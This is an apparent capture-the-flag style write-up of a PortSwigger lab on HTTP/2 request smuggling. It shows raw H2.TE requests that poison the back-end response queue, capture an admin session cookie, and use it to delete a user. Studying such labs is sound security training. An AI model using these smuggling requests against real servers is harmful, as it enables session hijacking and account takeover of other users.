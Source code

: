 #  Response queue poisoning via H2.TE request smuggling

## 📌 Lab Details
- **Title**: Response queue poisoning via H2.TE request smuggling
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/b0bedd0f5d815c54107d42a83e72de7254aa354f2dd106e6f2d8e47679ed2f60?referrer=%2fweb-security%2frequest-smuggling%2fadvanced%2fresponse-queue-poisoning%2flab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling

## 🔍 Summary
This lab demonstrated **response queue poisoning via H2.TE request smuggling**. By smuggling a **complete extra request** inside an HTTP/2 request, we desynchronized the front-end and back-end, leaving leftover responses in the queue. Repeated poisoning eventually captured the **admin’s session cookie** when they logged in.

## 🛠 Steps to Solve
1. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows.
   ```sh
   POST / HTTP/2
   Host: YOUR-LAB-ID.web-security-academy.net
   Transfer-Encoding: chunked

   0

   SMUGGLED
   ```
2. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
3. In Burp Repeater, create the following request, which smuggles a complete request to the back-end server.
   ```sh
   POST /x HTTP/2
   Host: YOUR-LAB-ID.web-security-academy.net
   Transfer-Encoding: chunked

   0

   GET /x HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   ```
4. Send the request to poison the response queue. You will receive the 404 response to your own request.
5. Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. If the attack is not successful then you can try sending a **sniper** attack through **Burp Intruder** to obtain a `302 Found` response.
6. Copy the session cookie and use it to send the following request:
   ```sh
   GET /admin HTTP/2
   Host: YOUR-LAB-ID.web-security-academy.net
   Cookie: session=STOLEN-SESSION-COOKIE
   ```
7. In the response, find the URL for deleting `carlos` (`/admin/delete?username=carlos`), then update the path in your request accordingly. Send the request to delete `carlos` and solve the lab.
